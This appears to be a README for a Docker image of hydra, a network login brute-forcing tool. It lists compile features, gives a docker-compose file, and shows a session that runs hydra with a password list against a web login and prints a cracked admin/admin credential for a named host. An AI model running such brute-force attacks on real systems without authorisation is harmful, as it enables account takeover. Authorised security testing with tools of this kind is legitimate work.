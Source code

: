 hydra
=====

A very fast network logon cracker which support many different services.

- [x] openssl
- [x] idn
- [x] curses
- [x] pcre
- [x] Postgres
- [x] SVN
- [ ] firebird
- [x] MYSQL client
- [ ] AFP
- [ ] NCP
- [ ] SAP/R3
- [x] libssh
- [ ] Oracle
- [ ] GUI req's
- [x] Android specialities
- [x] secure compile option support in gcc

## docker-compose.yml

```yaml
hydra:
  image: vimagick/hydra
  command: sleep infinity
  volumes:
    - ./data:/data
  working_dir: /data
  restart: unless-stopped
```

# up and running

```bash
$ docker-compose up -d

$ docker-compose exec hydra bash

>>> cat passwd.txt
    123456
    admin
    ...

>>> hydra -l admin -P passwd.txt -o hacked.txt http://www.target.com/login.php
    [DATA] max 1 task per 1 server, overall 64 tasks, 3 login try (l:1/p:1), ~0 tries per task
    [DATA] attacking service http-get on port 2812
    [2812][http-get] host: ss.easypi.info   login: admin   password: admin
    1 of 1 target successfully completed, 1 valid password found

>>> cat hacked.txt
    [2812][http-get] host: ss.easypi.info   login: admin   password: admin
```
